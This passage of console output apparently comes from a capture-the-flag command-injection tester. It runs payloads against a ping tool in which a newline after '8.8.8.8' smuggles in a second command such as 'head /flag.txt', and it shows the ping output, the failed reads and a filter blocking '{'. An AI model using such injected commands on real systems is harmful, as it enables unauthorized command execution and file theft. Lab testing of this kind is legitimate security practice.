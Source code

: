 --- 8.8.8.8 ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 3006ms
rtt min/avg/max/mdev = 3.648/3.738/3.780/0.052 ms
head: cannot open '/flag' for reading: No such file or directory

================================================================================

[22/26] Testing: Read /flag.txt

================================================================================
PAYLOAD: Read /flag.txt
Command: 8.8.8.8
head /flag.txt
--------------------------------------------------------------------------------
PING 8.8.8.8 (8.8.8.8) 56(84) bytes of data.
64 bytes from 8.8.8.8: icmp_seq=1 ttl=112 time=3.67 ms
64 bytes from 8.8.8.8: icmp_seq=2 ttl=112 time=3.78 ms
64 bytes from 8.8.8.8: icmp_seq=3 ttl=112 time=3.80 ms
64 bytes from 8.8.8.8: icmp_seq=4 ttl=112 time=3.77 ms

--- 8.8.8.8 ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 3006ms
rtt min/avg/max/mdev = 3.667/3.754/3.803/0.051 ms
head: cannot open '/flag.txt' for reading: No such file or directory

================================================================================

[23/26] Testing: Read flag.txt

================================================================================
PAYLOAD: Read flag.txt
Command: 8.8.8.8
head flag.txt
--------------------------------------------------------------------------------
PING 8.8.8.8 (8.8.8.8) 56(84) bytes of data.
64 bytes from 8.8.8.8: icmp_seq=1 ttl=112 time=3.65 ms
64 bytes from 8.8.8.8: icmp_seq=2 ttl=112 time=3.82 ms
64 bytes from 8.8.8.8: icmp_seq=3 ttl=112 time=3.74 ms
64 bytes from 8.8.8.8: icmp_seq=4 ttl=112 time=3.80 ms

--- 8.8.8.8 ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 3006ms
rtt min/avg/max/mdev = 3.651/3.752/3.815/0.064 ms
head: cannot open 'flag.txt' for reading: No such file or directory

================================================================================

[24/26] Testing: Awk read mission_briefing

================================================================================
PAYLOAD: Awk read mission_briefing
Command: 8.8.8.8
awk '{print}' mission_briefing.txt
--------------------------------------------------------------------------------
Error: Malicious character '{' detected.
================================================================================
